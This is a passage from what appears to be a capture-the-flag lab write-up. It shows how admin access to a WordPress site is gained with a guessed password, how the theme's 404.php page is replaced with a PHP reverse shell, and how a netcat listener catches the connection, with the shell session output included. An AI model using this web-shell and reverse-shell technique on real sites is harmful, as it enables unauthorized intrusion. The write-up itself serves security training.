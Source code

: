 I tried to login as `elyana` with the password `Try H@ckme@123` but it failed. I then tried with the password `H@ckme@123` and it worked.

# Reverse shell

Now connected with admin privileges, edit the `404.php` page of the twentytwenty template (http://10.10.244.196/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty) and replace all the code with a [PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

Click on the update button to apply the changes, open a listener (`rlwrap nc -nlvp 4444`) and browse http://10.10.244.196/wordpress/wp-content/themes/twentytwenty/404.php.

You should now have a reverse shell.

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.244.196] 46330
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:48:29 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$ 
~~~

# User flag

We find the `user.txt` file in `elyana`'s home folder, but we don't have enough permissions to read the file.

~~~
bash-4.4$ cd /home
cd /home
bash-4.4$ ls -la
ls -la
total 12
drwxr-xr-x  3 root   root   4096 Oct  5  2020 .
drwxr-xr-x 24 root   root   4096 Oct  5  2020 ..
drwxr-xr-x  6 elyana elyana 4096 Oct  7  2020 elyana
bash-4.4$ cd elyana
cd elyana
bash-4.4$ ls -la
ls -la
total 48
drwxr-xr-x 6 elyana elyana 4096 Oct  7  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw------- 1 elyana elyana 1632 Oct  7  2020 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4096 Oct  5  2020 .cache
drwxr-x--- 3 root   root   4096 Oct  5  2020 .config
drwx------ 3 elyana elyana 4096 Oct  5  2020 .gnupg
drwxrwxr-x 3 elyana elyana 4096 Oct  5  2020 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana   61 Oct  6  2020 user.txt
bash-4.4$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
~~~
